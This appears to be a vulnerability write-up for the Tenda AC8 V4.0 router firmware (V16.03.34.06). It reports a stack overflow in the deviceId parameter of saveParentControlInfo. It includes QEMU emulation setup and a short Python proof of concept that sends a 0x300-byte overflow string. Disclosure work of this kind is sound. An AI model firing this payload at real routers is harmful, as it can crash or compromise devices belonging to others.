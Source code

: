Overview

设备官网：https://www.tenda.com.cn

固件下载网站：https://www.tenda.com.cn/material/show/103518



Affected version

V16.03.34.06

Environmental simulation

need build Network bridge:

apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥


qemu start command：

sudo qemu-mipsel-static -L . ./bin/httpd



Vulnerability details

Tenda AC8V4.0-V16.03.34.06 be discovered to contain a stack overflow via the deviceid parameter in the get_parentControl_list_Info function.



Call chain : saveParentControlInfo -> saveParentControlInfo -> get_parentControl_list_Info

poc

Because saveParentControlInfo calls get_parentControl_list_Info, But there are actually two different stack overflow triggers in saveParentControlInfo and get_parentControl_list_Info

import requests

IP = "192.168.142.100"
url = f"http://{IP}/goform/saveParentControlInfo?"
url += "deviceId=deviceid"+ "R" * 0x300
url += "&enable=enable"
url += "&time=time"
url += "&url_enable=url_enable"
url += "&urls=urls"
url += "&day=day"
url += "&block=block"

response = requests.get(url)
print(response.content)




